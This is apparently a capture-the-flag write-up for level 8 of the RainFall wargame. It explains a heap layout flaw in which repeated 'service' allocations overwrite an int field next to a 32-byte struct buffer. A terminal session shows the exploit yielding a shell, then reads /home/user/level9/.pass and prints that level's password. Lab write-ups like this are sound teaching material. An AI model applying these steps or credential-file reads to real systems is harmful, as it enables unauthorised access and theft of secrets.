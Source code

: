 # level 8

In this level, we have a program doing a loop where you can write different comments

`auth `

`service`

`login`

`reset`

And we have a struc containing a char [32] and an int

In the loop, there is an strncmp for each function but there is some weird checking of them:
```c
    if(strncmp(line, "auth ", 5) == 0) // auth is 4 characters not 5

    if(strncmp(line, "service", 6) == 0) // service is 7 characters not 6
            service = strdup(line + 7); //  
```
So for each copy in `service`, it will allocate at least a TINY (8 bytes) and our buffer is 32, if it overflow, it will write on the second variable of the structure

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
service
0x804a008, 0x804a038 
service
0x804a008, 0x804a048 
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```